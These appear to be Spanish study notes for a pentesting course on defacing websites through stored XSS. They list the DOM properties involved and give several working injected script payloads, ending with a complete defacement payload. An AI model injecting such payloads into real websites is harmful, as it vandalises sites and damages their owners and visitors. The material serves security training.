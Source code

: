 ___
## **Defacement de Sitios Web**

### **Introducción**

El **defacement** consiste en modificar la apariencia de un sitio web, afectando a todos los visitantes. Es una técnica comúnmente utilizada en ataques con **XSS almacenado**, siendo este el tipo más crítico de XSS. Este ataque suele ser empleado por grupos de hackers para mostrar que han comprometido un sitio, afectando reputación e incluso valores bursátiles de empresas.

### **Elementos de Defacement**

Mediante JavaScript inyectado, se puede alterar la apariencia de la página. Los elementos clave para lograrlo son:

1. **Color de fondo**: `document.body.style.background`.
2. **Imagen de fondo**: `document.body.background`.
3. **Título de la página**: `document.title`.
4. **Texto de la página**: `DOM.innerHTML`.

### **Ejemplos Prácticos**

#### **Cambio de Color de Fondo**

Cambiar el color de fondo a un tono oscuro típico:

```html
<script>document.body.style.background = "#141d2b";</script>
```

O usar una imagen como fondo:

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg";</script>
```

#### **Cambio del Título de la Página**

Modificación del título del sitio:

```html
<script>document.title = 'HackTheBox Academy';</script>
```

#### **Cambio del Texto de la Página**

Modificar elementos individuales:

```javascript
document.getElementById("todo").innerHTML = "Texto nuevo";
```

Modificar todo el cuerpo del sitio:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "<h1>Mensaje de hackeo</h1>";
```

#### **Payload Completo**

Un payload completo para un ataque de defacement:

```html
<script>
document.body.style.background = "#141d2b";
document.title = 'HackTheBox Academy';
document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px"></p></center>';
</script>
```

### **Comportamiento del Código**

- El código inyectado se ejecuta al cargar la página.
- Aunque el código original sigue presente en el HTML, los usuarios ven la versión modificada.
- Si el script se inyecta en medio del código fuente, es posible que otros elementos interactúen, por lo que es necesario planificar adecuadamente.

---

Este resumen abarca los conceptos clave y ejemplos prácticos para que puedas consultarlo fácilmente durante ejercicios de pentesting. ¿Quieres añadir algún detalle adicional o personalizar el contenido?
